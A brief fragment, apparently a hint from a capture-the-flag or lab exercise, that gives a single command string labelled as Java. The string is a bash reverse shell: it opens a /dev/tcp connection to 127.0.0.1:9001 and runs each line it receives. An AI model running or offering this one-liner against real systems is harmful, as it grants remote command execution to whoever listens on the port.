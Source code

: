 # Hint 3

Try this for you command:

```java
"exec 5<>/dev/tcp/127.0.0.1/9001;cat <&5 | while read line; do $line 2>&5 >&5; done"
```